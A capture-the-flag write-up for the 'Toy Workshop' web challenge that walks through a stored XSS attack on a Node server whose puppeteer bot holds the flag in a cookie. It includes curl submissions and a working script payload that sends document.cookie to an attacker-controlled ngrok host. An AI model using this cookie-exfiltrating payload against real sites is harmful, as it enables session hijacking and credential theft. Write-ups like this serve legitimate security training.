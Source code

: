 ## Topic: Web
### Challenge Name: Toy Workshop

#### Challenge Prompt:
`The work is going well on Santa's toy workshop but we lost contact with the manager in charge! We suspect the evil elves have taken over the workshop, can you talk to the worker elves and find out?`

#### Walkthrough:
This challenge has both a downloadable part and a docker service to accompany it. Download the challenge archive and extract it to see it's a node webserver.  
Start the docker service, going to that service brings us to a fun little animation of packages moving on a conveyor belt.  
Looking through the code given to use, we can see the internal workings of what is presumably running on the docker service. This webserver has a couple interesting files, notably:
`database.js`  
`routes/index.js`  
`bot.js`  

Lets look at `routes/index.js` first. We can see a route to `/api/submit` that allows post requests. It looks like its adding a "query" in a sqlite3 db that gets retrieved later. We see there's another endpoint at `/queries` that displays the queries submitted to `/api/submit` endpoint. It has a localhost restriction on it though, so my first though it some sort of xss attack later on.  
Switching over to `bot.js`, we see this is where the flag is being set as cookies and where puppeteer is being setup to navigate to the `/queries` endpoint as localhost. This has confirmed the earlier suspicion that it is an XSS attack.

Looking at `database.js`, we can see the logic for inserting queries into the database and for displaying them later on. I got stuck on this code for awhile, but it's not as important as the other two.  

Lets send some test queries to `/api/submit` using curl and see what we get back.

Command: `curl -H "Content-Type: application/json" -d '{"query": "1234"}' -X POST 138.68.184.31:30881/api/submit`   

Response: `{"message":"Your message is delivered successfully!"}`

We knew what parameters to supply due to having access to the source code, more specifically that information is found in `routes/index.js` on line 15: `const { query } = req.body;`  

So we know so far that it's most likely an XSS attack since puppeteer is being used to access the `/queries` endpoint as localhost so lets send some payloads and see what happens.  
Command: `curl -H "Content-Type: application/json" -d '{"query": "<script>console.log(document.cookie)</script>}' -X POST http://138.68.184.31:32360/api/submit`  
Response: `{"message":"Your message is delivered successfully!"}`

But we have an issue, we can't access `/queries` where the XSS attack will be executed, also this attack will only display our cookies to the console. Not send them to a place we can access. Luckily there's a solution to this issue and it's called `ngrok`.  

Ngrok allows you to tunnel a localhost webserver onto the wide internet. We can do this by first creating a directory for the webserver, then running `python -m http.server &` and then `ngrok http 8000`, after executing that command we'll be given a domain name to use in our attacks.

Now lets try an attack from a really useful resource over at https://0xhorizon.eu/cheat-sheet/xss/. The "get cookies from another user" is exactly what we're looking for. Modifying it with out ngrok domain gives us the following payload:  
`<script>document.location.replace(\"http://2774-2601-602-87f-9853-7df0-274a-fd62-32ae.ngrok.io?cookie=\"+document.cookie)</script>"` *note the escaped strings, that got me for awhile*

Inserting this into our curl command gives us the following complete payload:
`curl -H "Content-Type: application/json" -d '{"query": "<script>document.location.replace(\"http://2774-2601-602-87f-9853-7df0-274a-fd62-32ae.ngrok.io?cookie=\"+document.cookie)</script>"}' -X POST 138.68.184.31:30881/api/submit` Execute this payload and wait a couple of seconds and the flag should show in the terminal tab with ngrok:
![[flag_ngrok.png]]
